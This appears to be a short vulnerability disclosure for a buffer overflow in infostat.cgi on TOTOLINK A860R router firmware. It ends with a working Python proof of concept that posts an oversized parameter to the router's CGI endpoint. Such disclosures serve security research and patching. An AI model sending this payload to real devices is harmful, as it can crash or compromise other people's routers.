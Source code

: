 # Firmware:
TOTOLINK:A860R V4.1.2cu.5182_B20201027

http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=62&ids=36

# Detail:

Parameters in infostat.cgi are not filtered, causing a buffer overflow vulnerability

![CZ}53``7N)N5EZ{Y6JDUJ(L](https://user-images.githubusercontent.com/84966968/183253587-485e610d-b3b6-4ef4-95b5-9b05818f7620.png)

The fread function copies data directly to the V11 register without filtering, causing a buffer overflow
# poc：
```
import requests
data = {'a':'a'*0x4000}
res = requests.post("http://192.168.0.1/cgi-bin/infostat.cgi", data=data)
print(res.content)
```
